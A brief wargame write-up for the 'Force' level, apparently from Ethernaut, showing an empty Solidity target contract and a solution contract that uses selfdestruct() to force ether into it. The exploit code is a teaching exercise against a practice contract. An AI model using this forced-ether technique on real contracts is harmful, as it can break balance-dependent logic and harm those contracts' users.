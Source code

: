 ## 7. Force

Goal for this exercise is:

- Make the balance of the contract greater than zero


<br/>

Here is the contract code:
~~~
pragma solidity ^0.6.0;

contract Force {/*

                   MEOW ?
         /\_/\   /
    ____/ o o \
  /~____  =ø= /
 (______)__m_m)

*/}
~~~
<br>
This exercise was about `selfdestruct()` function.

Here is the code to solve this:

~~~
pragma solidity ^0.6.0;

contract ForceExploit {
    
    receive() external payable {}
    
    function forceSend(address payable _receiver) external {
        selfdestruct(_receiver);
    }
}
~~~

